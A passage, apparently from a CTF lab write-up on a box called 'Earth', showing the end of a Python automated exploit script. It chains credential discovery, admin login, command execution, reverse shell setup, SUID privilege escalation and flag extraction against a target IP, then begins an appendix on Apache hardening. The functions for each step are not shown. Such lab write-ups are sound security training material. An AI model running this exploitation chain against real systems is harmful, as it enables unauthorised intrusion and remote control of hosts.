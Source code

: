 ```python
            
            self.log("Cleanup completed", "SUCCESS")
            
        except:
            self.log("Cleanup failed", "WARNING")
    
    def run_full_exploit(self):
        """Execute complete exploitation chain"""
        self.banner()
        
        phases = [
            ("Credential Discovery", self.discover_credentials),
            ("Admin Authentication", self.authenticate_admin_panel),
            ("Command Execution Test", self.test_command_execution),
            ("Reverse Shell Setup", self.setup_reverse_shell),
            ("Privilege Escalation Search", self.find_privilege_escalation),
            ("SUID Binary Exploitation", self.exploit_suid_binary),
            ("Flag Extraction", self.extract_flags)
        ]
        
        for phase_name, phase_func in phases:
            self.log(f"Starting {phase_name}", "INFO")
            success = phase_func()
            
            if not success:
                self.log(f"{phase_name} failed - continuing...", "WARNING")
            
            time.sleep(1)
        
        self.cleanup()
        self.log("Exploitation chain completed", "SUCCESS")

def main():
    parser = argparse.ArgumentParser(description='CTF Earth Automated Exploit')
    parser.add_argument('target', help='Target IP address')
    parser.add_argument('attacker', help='Attacker IP address') 
    parser.add_argument('--port', type=int, default=4444, help='Reverse shell port')
    
    args = parser.parse_args()
    
    exploit = EarthExploit(args.target, args.attacker)
    exploit.run_full_exploit()

if __name__ == "__main__":
    main()
```

### Appendix C: Security Configuration Templates

#### C.1 Apache Security Hardening Configuration
